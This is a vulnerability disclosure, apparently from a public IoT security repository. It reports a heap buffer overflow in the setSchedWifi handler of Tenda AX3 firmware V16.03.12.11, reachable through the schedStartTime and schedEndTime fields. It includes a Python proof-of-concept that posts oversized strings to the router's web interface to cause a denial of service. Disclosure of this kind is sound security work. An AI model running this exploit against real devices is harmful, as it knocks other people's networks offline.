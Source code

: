 Information
===========

**Vendor of the products**: Tenda <br>

**Vendor's website**: https://www.tenda.com.cn <br>

**Reported by**: korey0sh1(korey0sh2@gmail.com) <br>

**Affected products**: Tenda AX3 <br>

**Affected firmware version**: V16.03.12.11 <br>

**Firmware download address**: https://www.tenda.com.cn/download/detail-3476.html <br>

Overview
===========

**Tenda AX3 V16.03.12.11** has a **heap buffer overflow** vulnerability detected at function **setSchedWifi**. This vulnerability allows attackers to cause a Denial of Service (DoS) via the **schedStartTime** parameter and **schedEndTime** paramter. <br>

Vulnerability details
=====================
The vulnerability is detected at **/bin/httpd** <br>

In the function **setSchedWifi**, the content obtained by program through parameter **schedStartTime** and **schedEndTime** given by http is passed to variable **v5** and **v6**. However ,they will be copyed to the **v10** which is a heap ptr without any length check. <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/4.png) <br>

<br>

Proof of Code
====================
```python
from pwn import *
import requests

url = "http://192.168.0.1/goform/openSchedWifi"

payload = "a"*0x1000
data = {
    "schedStartTime": payload,
    "schedEndTime": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

Attack Demo
========
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/7.png)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/5.png)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/6.png)
